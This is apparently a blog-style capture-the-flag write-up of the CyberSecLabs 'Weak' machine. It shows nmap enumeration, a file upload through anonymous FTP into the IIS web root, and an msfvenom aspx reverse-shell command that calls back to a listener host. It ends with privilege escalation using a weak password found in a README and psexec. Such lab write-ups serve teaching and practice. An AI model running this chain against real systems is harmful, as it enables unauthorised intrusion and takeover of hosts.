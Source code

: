 ```yaml
---
layout: page
title: Weak - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/weak.html
---
```


# Weak - CyberSecLabs
----

First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.11`

![image](https://user-images.githubusercontent.com/50459517/103789467-a9dfb100-5005-11eb-9164-5fb734a473da.png)

Looks like we have serveral interesting ports open.  First thing I notice in the nmap output if the FTP results.  It looks like the contents for anonymous login are files found in a default IIS page.  We have IIS running on port 80 so lets see if it is a default page or not.

![image](https://user-images.githubusercontent.com/50459517/103789497-b49a4600-5005-11eb-9882-88dc5d139acc.png)

It is!  Lets test and see if this FTP server is linked to the root of this web server.  We can test this by putting a file on the server via FTP and then access it via HTTP.  If it works, we may be able to execute a script via HTTP that could give us a shell!

![image](https://user-images.githubusercontent.com/50459517/103789528-bfed7180-5005-11eb-880b-0f807fc2c88a.png)

I was getting an error saying the server cannot accept the argument **ls** which I had never seen before.  I looked this up and decided to see what wireshark showed when I sent the **ls** command.

![image](https://user-images.githubusercontent.com/50459517/103789571-c976d980-5005-11eb-9824-41e38f57b896.png)

It looks like it is using the **PORT** command with some arguments which I'm not for sure why.  I read up and someone suggested to try in passive mode.  So I switched and now everything seems good.

![image](https://user-images.githubusercontent.com/50459517/103789600-d4316e80-5005-11eb-88aa-1c643e9066f7.png)

I put the file **test.txt** on the server via FTP and accessed with HTTP successfully.

![image](https://user-images.githubusercontent.com/50459517/103789632-dd224000-5005-11eb-9243-7e27958ca040.png)

![image](https://user-images.githubusercontent.com/50459517/103789672-e6aba800-5005-11eb-8370-90af3b93904f.png)

Now lets try to generate an aspx payload with **msfvenom**.  We will use a x64 payload first and see what we get.  If it fails we may try an x86 instead.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f aspx > shell.aspx`

![image](https://user-images.githubusercontent.com/50459517/103789705-ee6b4c80-5005-11eb-83c8-7e55afc2fa54.png)

Now we will copy the payload to the server, start a netcat listener, and execute via HTTP.

![image](https://user-images.githubusercontent.com/50459517/103789813-0ba01b00-5006-11eb-86a7-0934c61831ae.png)

![image](https://user-images.githubusercontent.com/50459517/103789853-15c21980-5006-11eb-9051-2acac552760b.png)

![image](https://user-images.githubusercontent.com/50459517/103789879-1e1a5480-5006-11eb-822b-21cae0485074.png)

We have a shell as low level user.  Awesome!  Now time to escalate.

After some manual enumeration, we find a directory on the root of the hard drive called **Development** which looks interesting.  Inside is a file called **README.txt** so lets look at its contents.

![image](https://user-images.githubusercontent.com/50459517/103789906-283c5300-5006-11eb-991c-8e4d09e94fbc.png)

Hmmm.  Looks like someone is using an insecure password.  We can assume it is not the administrator account since this note seems to be signed by the Administrator.  Lets look and see what users we may have on this machine.

![image](https://user-images.githubusercontent.com/50459517/103789933-31c5bb00-5006-11eb-9fe8-e03b0eac3fbb.png)

Since we are current Alpha Site, lets see if we can authenticate with Web Admin.  I tried a few default passwords like **admin**, **password**, etc. All failed and I thought I would try to brute force untill I tried "**Password"** which is what was in the **README** file.  I got a message saying it could not access because of insufficient user privileges.  This is good as it indicates we have a valid set of creds, just can't be used via RDP.

![image](https://user-images.githubusercontent.com/50459517/103789965-3b4f2300-5006-11eb-874e-086a8ab17961.png)

So since we have SMB services running, lets try to get a shell with **psexec**

`psexec.py](http://psexec.py/) 'Web Admin':'Password'@172.31.1.11`

![image](https://user-images.githubusercontent.com/50459517/103790016-499d3f00-5006-11eb-8bf9-e4444be80986.png)

There we go.  We are now System on the machine!
